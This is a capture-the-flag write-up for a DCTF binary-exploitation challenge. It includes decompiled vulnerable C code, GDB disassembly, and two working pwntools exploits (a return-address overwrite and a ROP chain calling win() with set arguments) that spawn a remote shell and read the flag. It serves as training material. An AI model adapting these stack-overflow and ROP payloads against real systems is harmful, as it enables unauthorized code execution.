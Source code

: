 This was a sanity check challenge for the PWN category. 

We were provided a 64-bit ELF file containing the following functions:

vuln():
```c
void vuln(void)

{
  char local_48 [60];
  int local_c;
  
  puts("tell me a joke");
  fgets(local_48,0x100,stdin);
  if (local_c == -0x21523f22) {
    puts("very good, here is a shell for you. ");
    shell();
  }
  else {
    puts("will this work?");
  }
  return;
}
```

shell():
```c
void shell(void)

{
  puts("spawning /bin/sh process");
  puts("wush!");
  printf("$> ");
  puts("If this is not good enough, you will just have to try harder :)");
  return;
}
```

win():
```c
void win(int param_1,int param_2)

{
  puts("you made it to win land, no free handouts this time, try harder");
  if (param_1 == -0x21524111) {
    puts("one down, one to go!");
    if (param_2 == 0x1337c0de) {
      puts("2/2 bro good job");
      system("/bin/sh");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
  }
  return;
}
```

I initially attempted a variable overwrite in order to reach the shell() function. Specially, I overwrote `local_c` so that it would equal `-0x21523f22` (which is equivalent to `0xdeadc0de`)


```console
root@osboxes:~/Downloads# python -c 'from pwn import *;print "A" * 60 + p64(0xdeadc0de)' | ./pwn_sanity_check 
tell me a joke
very good, here is a shell for you. 
spawning /bin/sh process
wush!
$> If this is not good enough, you will just have to try harder :)
```

Clearly this was a rabbit-hole, as the shell() function does not actually produce a shell, it merely prints text. What we REALLY want is to reach the win() function which contains the `system("/bin/sh");` command. 

We can use GDB to pull the address for the win() function:

```console
(gdb) disas win
Dump of assembler code for function win:
   0x0000000000400697 <+0>:	push   %rbp
   0x0000000000400698 <+1>:	mov    %rsp,%rbp
   0x000000000040069b <+4>:	sub    $0x10,%rsp
   0x000000000040069f <+8>:	mov    %edi,-0x4(%rbp)
   0x00000000004006a2 <+11>:	mov    %esi,-0x8(%rbp)
   0x00000000004006a5 <+14>:	lea    0x18c(%rip),%rdi        # 0x400838
   0x00000000004006ac <+21>:	call   0x400550 <puts@plt>
   0x00000000004006b1 <+26>:	cmpl   $0xdeadbeef,-0x4(%rbp)
   0x00000000004006b8 <+33>:	jne    0x4006f1 <win+90>
   0x00000000004006ba <+35>:	lea    0x1b7(%rip),%rdi        # 0x400878
   0x00000000004006c1 <+42>:	call   0x400550 <puts@plt>
   0x00000000004006c6 <+47>:	cmpl   $0x1337c0de,-0x8(%rbp)
   0x00000000004006cd <+54>:	jne    0x4006f1 <win+90>
   0x00000000004006cf <+56>:	lea    0x1b7(%rip),%rdi        # 0x40088d
   0x00000000004006d6 <+63>:	call   0x400550 <puts@plt>
   0x00000000004006db <+68>:	lea    0x1bc(%rip),%rdi        # 0x40089e
   0x00000000004006e2 <+75>:	call   0x400560 <system@plt>
   0x00000000004006e7 <+80>:	mov    $0x0,%edi
   0x00000000004006ec <+85>:	call   0x4005a0 <exit@plt>
   0x00000000004006f1 <+90>:	nop
   0x00000000004006f2 <+91>:	leave  
   0x00000000004006f3 <+92>:	ret    
End of assembler dump.
```

One idea is take advantage of the precise location where `system("/bin/sh");` is called (which can be identified in either GDB or Ghidra):

```py
root@osboxes:~/Downloads# cat pwn_sanity_chk.py
from pwn import *

HOST = 'dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io'
PORT = 7480

sh = remote(HOST, PORT)

print sh.recv()

payload = 'A' * 72
payload += p64(0x004006db)

sh.sendline(payload)
sh.interactive()
```

Running this script yields an interactive session:

```console
root@osboxes:~/Downloads# python pwn_sanity_chk.py 
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
tell me a joke

[*] Switching to interactive mode
will this work?
$ whoami
pilot
$ ls
flag.txt
pwn_sanity_check
startService.sh
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
[*] Got EOF while reading in interactive
$  
```

The flag is **dctf{Ju5t_m0v3_0n}**.


For learning purposes, there is another approach where we don't just skip to the `system("/bin/sh")` call. This involves a Return Oriented Programming (ROP) technique. More information can be found [here](https://ctf101.org/binary-exploitation/return-oriented-programming/), but essentially we chain small snippets of assembly together to enable us to jump to any function we want. Sample code is below:

```py
root@osboxes:~/Downloads# cat pwn_sanity_chk2.py 
from pwn import *

binary = context.binary = ELF('./pwn_sanity_check')

if args.REMOTE:
    p = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)
else:
    p = process(binary.path)

pop_rdi = next(binary.search(asm('pop rdi; ret')))
pop_rsi_r15 = next(binary.search(asm('pop rsi; pop r15; ret')))

payload  = b''
payload += 0x48 * b'A'
payload += p64(pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(pop_rsi_r15)
payload += p64(0x1337c0de)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter('joke\n',payload)
p.interactive()
```


And output from running the script:

```console
root@osboxes:~/Downloads# python pwn_sanity_chk2.py REMOTE
[*] '/root/Downloads/pwn_sanity_check'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io on port 7480: Done
[*] Switching to interactive mode
will this work?
you made it to win land, no free handouts this time, try harder
one down, one to go!
2/2 bro good job
$ ls
flag.txt
pwn_sanity_check
startService.sh
$ cat flag.txt
dctf{Ju5t_m0v3_0n}
[*] Got EOF while reading in interactive
$  
```

